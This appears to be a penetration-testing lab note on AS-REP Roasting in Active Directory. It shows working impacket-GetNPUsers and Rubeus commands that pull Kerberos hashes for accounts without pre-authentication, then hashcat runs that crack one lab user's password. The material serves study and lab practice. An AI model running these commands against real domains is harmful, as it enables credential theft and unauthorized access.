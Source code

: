 # AS-REP Roasting



## Recap

The first step of authentication in Kerberos is to send an AS-REQ to the domain controller. If the authentication is successful, a AS-REP is sent to the AD user containing the session key and Ticket Granting Ticket (TGT). This is called _**Kerberos Pre-authentication**_.



## AS-REP Roasting

_**A user is vulnerable to AS-REP Roasting if Kerberos Pre-authentication is disabled.**_

AS-REP Roasting is when an attacker sends a AS-REQ on behalf of another user after acquiring a  AS-REP from the server. The attacker can use an offline password against the encrypted response.

## Attacking with Impacket-GetNPUsers

```powershell
kali@kali:~$ impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
Name  MemberOf  PasswordLastSet             LastLogon                   UAC      
----  --------  --------------------------  --------------------------  --------
dave            2022-09-02 19:21:17.285464  2022-09-07 12:45:15.559299  0x410200 
```

The output shows that dave has kerberos pre-authentication set to disabled. He's vulnerable to AS-Roasting!

### Cracking with Hashcat

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
</strong>...

$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f33...751a876a756757dc22:Flowers1
</code></pre>

## AS-REP Roasting on Windows

We can use Rubeus to perform AS-REP Roasting on Windows.

```powershell
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> .\Rubeus.exe asreproast /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: AS-REP roasting

[*] Target Domain          : corp.com

[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : dave
[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com
[*] Using domain controller: DC1.corp.com (192.168.50.70)
[*] Building AS-REQ (w/o preauth) for: 'corp.com\dave'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$dave@corp.com:AE43CA9011..AGD91
```

### Cracking with Hashcat

We can then Ex-filtrate the hash and crack with hashcat.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
</strong>...

$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f33...751a876a756757dc22:Flowers1
</code></pre>
